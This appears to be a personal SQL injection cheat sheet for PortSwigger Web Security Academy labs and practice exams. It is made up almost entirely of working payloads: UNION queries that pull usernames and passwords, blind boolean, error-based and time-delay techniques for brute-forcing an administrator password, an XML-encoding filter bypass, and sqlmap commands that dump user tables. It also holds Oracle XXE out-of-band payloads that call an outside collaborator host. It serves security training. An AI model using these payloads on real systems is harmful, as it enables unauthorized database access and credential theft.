


## General info
- SQL cheatsheet [link](https://portswigger.net/web-security/sql-injection/cheat-sheet)

#### Oracle DB
On Oracle databases, every **SELECT** statement must specify a table to select **FROM**. If your **UNION SELECT** attack does not query from a table, you will still need to include the **FROM** keyword followed by a valid table name.
There is a built-in table on Oracle called dual which you can use for this purpose. For example: **UNION SELECT 'abc' FROM dual**

- [Documentation](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html) for Oracle DB

#### Microsoft and MySQL
- **'+--+** --> remember space after double dash

## Practice exams payloads

#### Define version of DB
- cluster bomb attack
```
(case when (ASCII(substring(version(),§1§,1))=§103§) then author else title end);
```
- grep rules (using example from [here](https://habr.com/ru/companies/jetinfosystems/articles/805297/)):
- define start and end:
  - start after expression **.jpg"></a>\n**
  - end at delimiter: **\n__copy-paste-amount-of-spaces__\n**
  - check update config based on selection below


- run intruder and get version from ASCII



#### App 1
```
sqlmap -u 'https://...web-security-academy.net/advanced_search?SearchTerm=test&organize_by=DATE&blogArtist=' -batch --dbms postgresql --technique E --level 5 -D public -T users --dump --cookie='session=YOUR-COOKIE' -p 'organize_by'
```
#### App 2
```
sqlmap -u 'https://...web-security-academy.net/filtered_search?find=&organize=&order=&BlogArtist=' -batch --dbms postgresql --technique E --level 5 -D public -T users --dump --cookie='session=YOUR-COOKIE' -p 'order' --> will get 
critical error, looks like something is blocking => add random agent options

sqlmap -u 'https://...web-security-academy.net/filtered_search?find=&organize=&order=&BlogArtist=' -batch --dbms postgresql --technique E --level 5 -D public -T users --dump --cookie='session=YOUR-COOKIE' -p 'order' --random-agent
```

## LABS payloads
- TODO: add payloads for sqlmap for all LABS
#### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

GET /filter?category=Gifts'+or+1=1--
```

#### SQL injection vulnerability allowing login bypass
```
administrator'--
```

#### SQL injection UNION attack, determining the number of columns returned by the query
```
‘order by 1--
```
- look at the changes in filtering results
- increase number until get 500
```
'+UNION+SELECT+NULL--
```
- increase amount of null until you get 200 instead of 500

#### SQL injection UNION attack, finding a column containing text
- define number of columns
- define wich column is with text
```
'+UNION+SELECT+'a', NULL, NULL--
'+UNION+SELECT+NULL, 'a', NULL--
'+UNION+SELECT+NULL, NULL, 'a'--
```
- one of them should be 200 instead of 500
- change ‘a’ to the text you need

#### SQL injection UNION attack, retrieving data from other tables
- define number of columns
- define where text type is (verify that both are text)
```
GET /filter?category=Gifts'+union+select+username,password+from+users--
```

#### SQL injection UNION attack, retrieving multiple values in a single column
- define number of columns
- find empty row on a page
- find that one of columns is reflected
```
'+UNION+SELECT+NULL,'abc'--
```
- then send payload
```
'union+select+NULL,username|'-'|password+from+users--
``` 
or 
```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

#### Blind SQL injection with conditional responses
- look at trackingId cookie and save its value
- find that welcome back message appears
```
TrackingId=xyz' AND '1'='1 --> welcome back appears
TrackingId=xyz' AND '1'='2 --> doesnt appear
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a --> verify users table existence
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a --> verify that admin user is present
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a --> define 
length of password. increase until message dissapears (2, 3, ..)

TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§ --> using 
intruder brute chars for 1st position in password, then repeat it for second (2,1) etc. use a-z and 0-9 payloads
```
or
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§ --> create a 
cluster bomb attack
```

#### Blind SQL injection with conditional errors
```
TrackingId=xyz
TrackingId=xyz' --> error
TrackingId=xyz'' --> no error', means that we have detectable effect on the responses
TrackingId=xyz'||(SELECT '')||' --> error
TrackingId=xyz'||(SELECT '' FROM dual)||' --> no error (correct syntax for oracle db)
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||' --> error, i.e string is processed as a query
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||' --> verify that user table exists. WHERE ROWNUM = 1 
condition is important here to prevent the query from returning more than one row, which would break our concatenation
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' --> verify using of test 
conditions is possible and that error message appears
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' --> error disappears, i.e. we 
can trigger errors
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' 
--> check for admin user
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE 
username='administrator')||' --> check password length, (2, 3, ..), using intruder, run until error disappears
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE 
username='administrator')||' --> use intruder and alphanumeric payloads. 500 code is when char is correct for pass. then use (2,1), (3,1) and so on
```
or
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE 
username='administrator')||' --> create cluster bomb attack
```

#### Visible error-based SQL injection
```
TrackingId=ogAZZfxtOKUELbuJ' --> error with sql query
TrackingId=ogAZZfxtOKUELbuJ'-- --> no error
TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)-- --> different error saying that an AND condition must be a 
boolean expression
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)-- --> no error
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)-- --> initial error, that shows that 
query is truncated
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)-- --> delete tracking id value. but now new error saying 
that more than 1 row is returned
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
--> ERROR: invalid input syntax for type integer: "administrator" - means that admin is the first user in users
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

#### Blind SQL injection with time delays
```
TrackingId=x'||pg_sleep(10)--
```

#### Blind SQL injection with time delays and information retrieval
```
TrackingId=x'||pg_sleep(10)-- 
'||pg_sleep(2) and 'administrator'=(select username from users limit 1)--

'||pg_sleep(2) and '1'=(select case when substring(password,1,1)='§a§' then '1' else '' end from users where 
username='administrator')-- --> intruder for different offsets. look for responses with big time delay (response 
recieved), a-z0-9
```
or create cluster bomb attack
```
'||pg_sleep(2) and '1'=(select case when substring(password,§1§,1)='§a§' then '1' else '' end from users where username='administrator')--
```

#### SQL injection attack, querying the database type and version on Oracle
```
'+union+select+'a'+from+dual--' -error
'+union+select+'a','b'+from+dual-- - no error
'+union+select+banner,'b'+from+v$version-- 
```

#### SQL injection attack, querying the database type and version on MySQL and Microsoft
```
'+--+ --> that works (remember space after double dash)
'+union+select+'',''+--+ --> that works i.e 2 columns must be returned
'+union+select+@@version,''+--+
```

#### SQL injection attack, listing the database contents on non-Oracle databases
```
'+--
'+union+select+'',''+-- --> that works
'+union+select+table_name,''+from+information_schema.tables+limit+1+--

'+union+select+table_name,''+from+information_schema.tables+--  --> if schema is standard then let's get all table names, find users_*some-random-string*

'+union+select+column_name,''+from+information_schema.columns+where+table_name='users_ybnmvv'+-- --> find 
username_*some-random-string*

'+union+select+username_nklufc,''+from+users_ybnmvv+-- --> find password_*some-random-string*

'+union+select+password_ywxbsz,''+from+users_ybnmvv+where+username_nklufc='administrator'-- - 
```
- or using sqlmap:
```
sqlmap -u 'https://...web-security-academy.net/filter?category=Gifts'  -batch --level 3 --dump -p 'category'
```

#### SQL injection attack, listing the database contents on Oracle
```
'+--
'+union+select+'',''+from+dual+--
'+union+select+table_name,''+from+all_tables+-- --> According to docs we have TABLE_NAME, so again find 
users_*some-random-string*, username_*some-random-string*, password_*some-random-string*
'+union+select+column_name,''+from+all_tab_columns+where+table_name='USERS_OUEFIN'--
'+union+select+USERNAME_EVZEYB,''+from+USERS_OUEFIN--
'+union+select+PASSWORD_QPXRJD,''+from+USERS_OUEFIN+where+USERNAME_EVZEYB='administrator'--
```

#### SQL injection with filter bypass via XML encoding
- Send the POST /product/stock request to Burp Repeater
- **<storeId>1+1</storeId>** - Observe that your input appears to be evaluated by the application, returning the stock for different stores
- **<storeId>1 UNION SELECT NULL</storeId>** - attack detected
- Extensions > Hackvertor > Encode > dec_entities/hex_entities - no attack detected
```
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>
```

#### Blind SQL injection with out-of-band interaction (OAST)
- take response with trackingId
- use payload from cheatsheet, but craft it accurately using correct concatenation for oracle db

```
TrackingId='''||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!
ENTITY+%25+remote+SYSTEM+"http%3a//COLLAB.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)||'
```
- or just scan that point using burp pro then check payload which led to dns interaction:
```
TrackingId='''%7c%7c(select%20extractvalue(xmltype('%3c%3fxml%20version%3d%221.
0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20[%20%3c!ENTITY%20%25%20novwd%20SYSTEM%20%22http%3a%2f%2fCOLLAB.
oasti'%7c%7c'fy.com%2f%22%3e%25novwd%3b]%3e')%2c'%2fl')%20from%20dual)%7c%7c'

TrackingId='''||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % 
novwd SYSTEM "http://COLLAB.oasti'||'fy.com/">%novwd;]>'),'/l') from dual)||'
```

#### Blind SQL injection with out-of-band data exfiltration (OAST)
TODO
